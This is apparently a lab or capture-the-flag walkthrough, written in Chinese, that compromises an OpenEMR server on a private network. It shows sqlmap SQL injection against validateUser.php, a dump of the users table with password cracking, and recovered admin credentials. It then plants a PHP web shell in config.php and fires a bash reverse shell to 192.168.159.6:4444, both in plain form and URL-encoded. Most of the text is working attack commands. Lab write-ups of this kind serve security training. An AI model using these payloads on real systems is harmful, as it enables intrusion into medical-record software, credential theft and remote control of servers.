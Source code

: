 ```bash
sqlmap -u http://192.168.159.131/openemr/interface/login/validateUser.php?u=  -D openemr --tables
```

结果在`sqltables.txt`

```bash
sqlmap -u http://192.168.159.131/openemr/interface/login/validateUser.php?u=  -D openemr -T users --dump
# 并使用rockyou爆破
```

结果在`sqldata.txt`

主要信息

```
admin:ackbar
medical:medical
```

成功登录admin

## GetShell

在http://192.168.159.131/openemr/interface/main/main_screen.php?auth=login&site=default可以直接编辑php文件，写入php后门

```
http://192.168.159.131/openemr/sites/default/config.php
```

```php
system($_GET['hack']);
```

系统有点奇特，不支持ls，支持dir，uname结果如下，容易误认为是Windows

```
Linux localhost.localdomain 2.6.38.8-pclos3.bfs #1 SMP PREEMPT Fri Jul 8 18:01:30 CDT 2011 i686 i686 i386 GNU/Linux
```
载荷
```bash
bash -i >& /dev/tcp/192.168.159.6/4444 0>&1
```

```
view-source:http://192.168.159.131/openemr/sites/default/config.php?hack=bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E159%2E6%2F4444%200%3E%261
```

读取到user.txt

```
d41d8cd98f00b204e9800998ecf8427e
```

优化shell

```bash
python -c 'import os; os.system("/bin/sh")'
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
